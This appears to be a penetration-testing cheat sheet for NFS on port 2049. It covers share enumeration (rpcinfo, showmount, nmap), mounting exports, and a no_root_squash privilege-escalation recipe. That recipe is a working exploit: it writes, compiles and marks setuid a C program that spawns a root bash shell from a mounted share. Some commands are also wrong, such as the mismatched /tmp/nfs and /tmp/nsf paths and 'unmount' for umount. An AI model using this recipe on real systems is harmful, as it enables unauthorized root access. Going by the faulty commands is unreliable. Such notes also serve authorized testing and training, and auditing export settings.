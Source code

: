 # NFS - 2049

First check the possible versions

```
rpcinfo -p 10.10.10.10 | grep nfs - Shows supported NFS versions
```

Check which shares have been shared on this system

```
showmount -e 10.10.10.10
```

Mount the directory

```
#First, create a folder with any name
mkdir /tmp/nfs

#Mount the share
mount -t nfs -o nfsvers=2 172.16.1.5:/ /tmp/nsf

This way we are mounting the share in version 2 at the root of the share (/) and then we define the folder

#Unmount the share
unmount nfs

```

***

#### Show Mountable NFS Shares <a href="#show-mountable-nfs-shares" id="show-mountable-nfs-shares"></a>

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

#### Mount a share <a href="#mount-a-share" id="mount-a-share"></a>

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

#### NFS misconfigurations <a href="#nfs-misconfigurations" id="nfs-misconfigurations"></a>

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no\_root\_squash/no\_all\_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```
